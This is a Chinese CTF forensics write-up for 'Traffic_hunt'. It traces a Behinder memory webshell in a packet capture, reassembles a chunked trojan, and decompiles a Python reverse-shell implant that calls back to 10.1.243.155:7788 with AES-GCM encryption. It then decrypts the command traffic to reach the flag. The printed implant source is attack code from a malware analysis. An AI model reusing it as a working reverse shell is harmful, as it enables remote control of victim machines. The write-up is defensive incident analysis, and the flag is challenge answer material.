









# Traffic_hunt

题目给出了一个流量包，优先筛选一下HTTP协议，存在类似目录扫描结果。直接一键全部导出，再用vscode打开查看内容。



存在大量`favicondemo.ico`请求目录，猜测是注入了内存马（在使用Shiro工具注入内存马默认都是以.ico文件）



使用蓝队分析工具箱https://github.com/abc123info/BlueTeamTools

逆向发现是冰蝎内存马





使用`HWmc2TLDoihdlrON`可以直接计算出密钥`1f2c8075acd3d118`



使用冰蝎传输可执行文件，并且使用分块传输，根据`blockIndex`顺序从`0`一直到`351`，拼接出`content`，导出`out`反连木马。



编写python脚本进行整合还原木马

```python
import os
import re
import base64

# 匹配 blockIndex = blockIndex + "数字";
block_index_pattern = re.compile(r'blockIndex\s*=\s*blockIndex\s*\+\s*"(\d+)";')

# 匹配 content = content + "任意内容";
content_pattern = re.compile(r'content\s*=\s*content\s*\+\s*"([^"]*)";', re.DOTALL)

def extract_blocks_from_file(file_path):
    """
    从单个 Java 文件中提取 blockIndex 和 content
    返回列表 [(index, content_str), ...]
    """
    blocks = []
    try:
        with open(file_path, "r", encoding="utf-8", errors="ignore") as f:
            file_content = f.read()
            block_indices = block_index_pattern.findall(file_content)
            contents = content_pattern.findall(file_content)
            # 如果 blockIndex 与 content 数量一致
            if len(block_indices) == len(contents):
                for idx, cont in zip(block_indices, contents):
                    blocks.append((int(idx), cont))
    except Exception as e:
        print(f"无法读取文件 {file_path}: {e}")
    return blocks

def find_all_blocks(root_dir="."):
    all_blocks = []
    for dirpath, dirnames, filenames in os.walk(root_dir):
        for filename in filenames:
            if filename.endswith(".java"):
                file_path = os.path.join(dirpath, filename)
                blocks = extract_blocks_from_file(file_path)
                if blocks:
                    all_blocks.extend(blocks)
    print(all_blocks[:-1][0])
    return all_blocks

def main():
    all_blocks = find_all_blocks()
    if not all_blocks:
        print("未找到匹配的 blockIndex 和 content。")
        return
    
    # 按 blockIndex 排序
    all_blocks.sort(key=lambda x: x[0])

    # 拼接所有 content
    combined_content = "".join([b[1] for b in all_blocks])
    try:
        decoded_content = base64.b64decode(combined_content)
        with open("out", "wb") as f:
            f.write(decoded_content)
        print("已生成文件 out")
    except Exception as e:
        print(f"Base64 解码失败: {e}")

if __name__ == "__main__":
    main()
```

使用 UPX 对out文件进行解壳，随后通过 pyinstxtractor 提取 PyInstaller 打包的 Python 字节码文件，对 out 木马进行反编译分析。

```python
#!/usr/bin/env python
# visit http://tool.lu/pyc/ for more information
import os
import socket
import struct
import subprocess
import argparse
import settings
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
SERVER_LISTEN_IP = '10.1.243.155'
SERVER_LISTEN_PORT = 7788
IMPLANT_CONNECT_IP = '10.1.243.155'
IMPLANT_CONNECT_PORT = 7788
SERVER_LISTEN_NUM = 20
_aesgcm = None

def set_aes_key(key_b64 = None):
    global _aesgcm
    key = base64.b64decode(key_b64)
    if len(key) not in (16, 24, 32):
        raise ValueError('AES 密钥长度必须为 16, 24 或 32 字节（对应 128, 192, 256 位）')
    _aesgcm = AESGCM(key)


def encrypt_data(data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    nonce = os.urandom(12)
    ciphertext = _aesgcm.encrypt(nonce, data, None)
    return nonce + ciphertext


def decrypt_data(encrypted_data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    if len(encrypted_data) < 28:
        raise ValueError('加密数据太短，无法包含 nonce 和认证标签')
    nonce = encrypted_data[:12]
    ciphertext_with_tag = encrypted_data[12:]
    plaintext = _aesgcm.decrypt(nonce, ciphertext_with_tag, None)
    return plaintext


def exec_cmd(command, code_flag):
    command = command.decode('utf-8')
# WARNING: Decompyle incomplete


def send_data(conn, data):
    if type(data) == str:
        data = data.encode('utf-8')
    encrypted_data = settings.encrypt_data(data)
    cmd_len = struct.pack('i', len(encrypted_data))
    conn.send(cmd_len)
    conn.send(encrypted_data)


def recv_data(sock, buf_size = (1024,)):
    x = sock.recv(4)
    all_size = struct.unpack('i', x)[0]
    recv_size = 0
    encrypted_data = b''
    if recv_size < all_size:
        encrypted_data += sock.recv(buf_size)
        recv_size += buf_size
        continue
    data = settings.decrypt_data(encrypted_data)
    return data


def main():
    sock = socket.socket()
    sock.connect((settings.IMPLANT_CONNECT_IP, settings.IMPLANT_CONNECT_PORT))
    code_flag = 'gbk' if os.name == 'nt' else 'utf-8'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    parser = argparse.ArgumentParser('', **('description',))
    parser.add_argument('--aes-key', True, '', **('required', 'help'))
    args = parser.parse_args()
    settings.set_aes_key(args.aes_key)
    main()
```

发现反连的IP地址和端口

使用tshark提取出有关`10.1.243.155`IP和端口`7788`的流量

> tshark -r traffic_hunt.pcapng -Y "ip.addr==10.1.243.155 && tcp.port==7788" -w filtered_traffic.pcap

发现存在后门文件执行aes密钥`IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=`



编写脚本对过滤流量包中的TCP字节进行AES解密

```python
from scapy.all import rdpcap, TCP
import struct
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
import base64

packets = rdpcap('filtered_traffic.pcap')


key_b64 = 'IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs='
key = base64.b64decode(key_b64)
aesgcm = AESGCM(key)

def decrypt_data(encrypted_data):
    if len(encrypted_data) < 28:
        return b'INVALID'
    nonce = encrypted_data[:12]
    ciphertext_with_tag = encrypted_data[12:]
    try:
        plaintext = aesgcm.decrypt(nonce, ciphertext_with_tag, None)
        return plaintext
    except:
        return b'DECRYPT_FAILED'

client_to_server = []
server_to_client = []

for pkt in packets:
    if pkt.haslayer(TCP) and pkt.haslayer('Raw'):
        if pkt[TCP].dport == 7788:  # client to server
            client_to_server.append(pkt['Raw'].load)
        elif pkt[TCP].sport == 7788:  # server to client
            server_to_client.append(pkt['Raw'].load)

client_data = b''.join(client_to_server)
server_data = b''.join(server_to_client)

print("Client to Server raw data:", client_data.hex())
print("Server to Client raw data:", server_data.hex())

def parse_messages(data, direction):
    pos = 0
    messages = []
    while pos < len(data):
        if pos + 4 > len(data):
            print(f"Incomplete length at pos {pos}")
            break
        length = struct.unpack('<I', data[pos:pos+4])[0]
        pos += 4
        if pos + length > len(data):
            print(f"Incomplete message at pos {pos}, length {length}")
            break
        encrypted = data[pos:pos+length]
        pos += length
        decrypted = decrypt_data(encrypted)
        messages.append((direction, decrypted))
    return messages

client_messages = parse_messages(client_data, "Client -> Server")
server_messages = parse_messages(server_data, "Server -> Client")

for msg in server_messages + client_messages:
    print(f"{msg[0]}: {msg[1].decode('utf-8', errors='ignore')}")
```





> dart\{d9850b27-85cb-4777-85e0-df0b78fdb722\}